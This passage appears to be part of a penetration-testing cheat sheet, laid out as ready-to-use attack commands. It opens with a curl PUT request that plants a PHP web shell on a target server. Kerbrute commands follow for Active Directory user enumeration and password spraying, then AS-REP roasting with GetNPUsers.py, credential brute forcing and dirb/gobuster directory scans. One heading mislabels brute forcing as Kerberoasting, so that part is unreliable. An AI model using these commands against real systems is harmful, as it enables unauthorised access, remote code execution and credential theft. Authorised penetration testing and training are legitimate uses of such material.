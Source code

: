 Using PUT Method

```
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### Kereberos Enumeration

#### Enumerating usernames and Tickets on Kereberos

```
root@kali:./kerbrute_linux_amd64 userenum -d pentesting.local –dc [ip] [path-to-usernames-wordlist]
```

#### Check if a user among users in Active directory has a specified password in the input \[Password Spray Attack]

```
root@kali:./kerbrute_linux_amd64 passwordspray -v -d pentesting.local –dc [ip] [users-list.txt] [the password]
```

#### Getting password hashes and TGTs for identified users in the previous Kerebros enumeration \[ASREP ROASTING]

```
root@kali:python3 GetNPUsers.py -dc-ip [ip] pentesting.local/ -usersfile [list-of-found-users-from-command-above]
```

#### Brute forcing usernames and passwords with Kereberos \[Kerebroasting]

```
root@kali:python kerbrute.py -domain pentesting.local -users users.txt -passwords passwords.txt -outputfile passwords-found.txt
```

### Enumerating web application directories with gobuster and dirbuster

#### Regular scan with wordlist

```
root@kali:dirb http://10.5.5.25:8080/ -w
 ### -w: to continue enumerating past the warning messages
root@kali:gobuster dir -u ‘url’ -w [path-to-wordlist]
```

#### Directory enumeration with file extensions specified

```
root@kali:dirb http://10.5.5.25:8080/ -w -e php,html,txt,js 
```

#### Filtering output
